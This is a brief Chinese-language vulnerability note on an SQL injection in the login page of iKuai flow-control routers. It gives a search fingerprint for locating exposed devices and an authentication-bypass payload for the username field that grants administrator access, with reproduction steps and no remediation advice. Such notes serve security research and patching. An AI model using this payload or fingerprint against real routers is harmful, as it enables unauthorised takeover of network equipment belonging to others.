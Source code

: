 # iKuai 流控路由 SQL注入漏洞

# iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## 网络测绘

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](/images/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](/images/202202140931830.png)

